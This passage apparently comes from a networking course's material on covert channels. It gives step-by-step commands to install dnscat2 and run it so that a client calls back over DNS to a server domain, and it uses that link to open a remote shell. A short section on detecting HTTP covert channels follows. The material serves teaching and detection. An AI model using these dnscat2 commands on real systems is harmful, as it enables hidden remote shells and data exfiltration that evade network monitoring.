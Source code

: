 
---
#### 4.3.4.1 Setting up Covert Channels by using DNSCAT2
- *Install dnscat2*
- Server
  - `sudo apt-get install gcc`
  - `sudo apt-get install automake`
  - `sudo apt-get install ruby-dev`
  - `git clone https://github.com/iagox86/dnscat2.git`
  - `cd dnscat2/server/`
  - `sudo gem install bundler`
  - `sudo bundle install`
- Client
  - `sudo apt-get install gcc`
  - `sudo apt-get install automake`
  - `git clone https://github.com/iagox86/dnscat2.git`
  - `cd dnscat2/client/`
  - `make`
- *Starting*
- Server
  - `ruby ./dnscat2.rb -e open -d host=0.0.0.0,port=53,domain=plaid-jello.com`

![image](https://github.com/ruppertaj/WOBC/assets/93789685/5aa84e54-1736-4397-b857-1a3635f23dca)

- Client
  - `./dnscat --dns server=plaid-jello.com,port=53`

![image](https://github.com/ruppertaj/WOBC/assets/93789685/54dd99f0-8094-400d-a341-b308178f04e8)

- *Using*
- Server
  - Once a callback has been recieved:
  - `session -i 1`
  - `shell`
  - `ctrl-z`
  - `window -i 2`

![image](https://github.com/ruppertaj/WOBC/assets/93789685/059c5d90-a370-43ac-bc83-719be2d6e98a)


---
### 4.3.5 Detecting Covert Channels with HTTP
Hyper Text Transfer Protocol (HTTP) is another great place to hide Covert channels and information because it’s main job is to reach out into the internet and get something. So it can very convenient to place additional information in the packets that are already going across the network anyways. HTTP will send out a GET request to look at the servers webpage, this is usually hosted on a companys webserver in their DMZ so as not to allow too many people into their internal network (think front of the restaurant, while the main portions of the company are behind their DMZ, or in the kitchen cooking the food).

Once a webserver receives a GET request, they will comply and push out the contents of the webpage to the browser that asked for it. Sometimes this can be a lot of information all at once. Whether it is just a picture, or hyperlinks, or videos, or whatever, there will most likely be a lot of traffic sent from the web server. So it will be large, bursty, and uneven.
